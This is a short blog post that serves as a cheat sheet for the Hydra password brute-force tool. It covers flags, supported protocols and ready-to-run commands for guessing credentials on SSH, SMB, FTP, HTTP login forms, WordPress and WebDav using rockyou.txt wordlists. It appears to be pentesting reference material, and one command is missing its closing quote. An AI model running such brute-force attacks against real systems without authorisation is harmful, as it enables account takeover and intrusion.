 +++
author = "Noobosaurus R3x"
title = "Hydra Cheat Sheet"
date = "2023-07-18"
description = "Hydra Cheat Sheet"
type = [
    "posts"
]
categories = [
    "cheat-sheets"
]
tags = [
    "cheat-sheets",
    "articles"
]
+++
---
# **Basic syntax :**
```bash
hydra [options] <IP> <protocole>
```
---
## Some flags :

`-h` Show help menu  
`-l <username>` Username/login  
`-L <wordlist>` Usernames/login wordlist  
`-p <password>` Password  
`-P <wordlist>` Passwords wordlist  
`-s <PORT>` Specify port  
`-f` Stop bruteforce as soon as username and password are found  
`-R` Restore previous session  
`-t <number>` Number of threads  
`-V` Verbosity  

## Some protocols :

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP, SMB, SMTP, MySQL, etc...

## Examples :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Bruteforce HTTP Post form :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect
```

## Bruteforce Wordpress :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## Bruteforce FTP :
```bash
hydra -L /path/to/userlist.txt -P /path/to/pasword_list.txt 10.10.10.10 -t 4 ftp
```

## Bruteforce WebDav : 
```bash
hydra -L /path/to/userlist.txt -P path/to/pasword_list.txt 10.10.10.10 http-get /webdav
```
---